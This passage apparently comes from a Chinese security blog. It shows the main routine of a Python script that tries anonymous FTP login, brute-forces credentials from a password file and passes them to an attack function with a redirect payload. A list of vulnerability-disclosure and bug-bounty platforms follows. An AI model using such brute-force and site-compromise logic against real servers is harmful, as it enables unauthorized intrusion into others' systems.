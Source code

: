         username = None
        password = None
        if anonLogin(tgtHost) == True:
            username = 'anonymous'
            password = ''
            print('[+] Using Anonymous Creds to attack')
            attack(username, password, tgtHost, redirect)
        elif passwdFile != None:
            (username, password) = \
            bruteLogin(tgtHost, passwdFile)
        if password != None:
            print('[+] Using Creds: ' + username + '/' + password + ' to attack')
            attack(username, password, tgtHost, redirect)




if __name__ == '__main__':
    main()</code></pre>


 

 

---


---


> 
<h2>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)